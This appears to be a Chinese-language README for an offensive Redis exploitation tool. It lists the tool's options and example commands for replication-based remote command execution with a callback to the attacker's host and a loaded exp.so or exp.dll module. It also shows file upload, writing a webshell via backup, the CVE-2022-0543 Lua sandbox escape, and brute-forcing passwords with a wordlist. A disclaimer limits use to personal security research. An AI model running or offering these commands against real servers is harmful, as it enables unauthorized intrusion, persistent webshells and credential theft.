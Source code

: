 ## Redis 漏洞利用工具

帮助：`-h`

```
NAME:
   Redis Exp - Redis 利用工具

USAGE:
   Redis Exp [global options] command [command options] [arguments...]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --rhost value, -r value      目标IP
   --rport value, --rp value    目标端口 (default: "6379")
   --pwd value                  Redis密码
   --lhost value, -l value      本地IP
   --lport value, --lp value    本地端口 (default: "21000")
   --dll value, --so value      设置 exp.dll | exp.so (default: "exp.dll")
   --cmd value, -c value        命令执行
   --console                    使用交互式 shell (default: false)
   --exec                       主从复制命令执行 (default: false)
   --upload                     主从复制文件上传 (default: false)
   --rpath value, --path value  保存在目标的目录 (default: ".")
   --rfile value, --rf value    保存在目标的文件名
   --lfile value, --lf value    需要上传的文件名
   --lua                        Lua沙盒绕过命令执行 CVE-2022-0543 (default: false)
   --shell                      备份写 Webshell (default: false)
   --help, -h                   show help (default: false)
```

#### 主从复制漏洞

命令执行：

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -c whoami
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -console

RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -c whoami
RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -console
````

![1](images/1.png)

文件上传：

```
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -upload -rfile 1.txt -lfile 2.txt
```

![2](images/2.png)



#### 备份写 Webshell

```
RedisExp.exe -rhost 192.168.211.128 -shell
```

![3](images/3.png)



#### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![4](images/4.png)


#### 爆破 Redis 密码

```
RedisExp.exe -r 192.168.211.128 -brute -pwdf ../pass.txt
```

![4](images/5.png)


### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile

 

### 声明

本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。
